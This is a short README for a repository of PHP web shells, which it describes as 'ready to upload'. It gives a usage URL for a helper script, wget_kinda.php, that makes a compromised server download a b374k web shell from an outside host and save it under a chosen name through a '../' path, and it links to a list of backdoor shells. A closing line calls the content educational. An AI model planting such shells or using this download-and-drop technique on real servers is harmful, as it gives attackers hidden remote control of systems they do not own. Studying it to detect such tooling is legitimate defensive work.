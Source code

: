 # php-web-shells

Simple collection of php shells ready to upload.

---

## "Upload" "any" file to the server using the wget_kinda.php.

wget_kinda.php usage:
```
https://yourserver.com/anydir/wget_kinda.php?path=../anydir2/&fname=chooseaname.php&url=https://raw.githubusercontent.com/roconaline/php-web-shells/main/b374k4.php
```
---

## To do

Add more options.

---

## Recomended webshells collection:
[backdoorhub/shell-backdoor-list](https://github.com/backdoorhub/shell-backdoor-list)

---

## Important

**_The content provided is for educational and informational purposes only._**
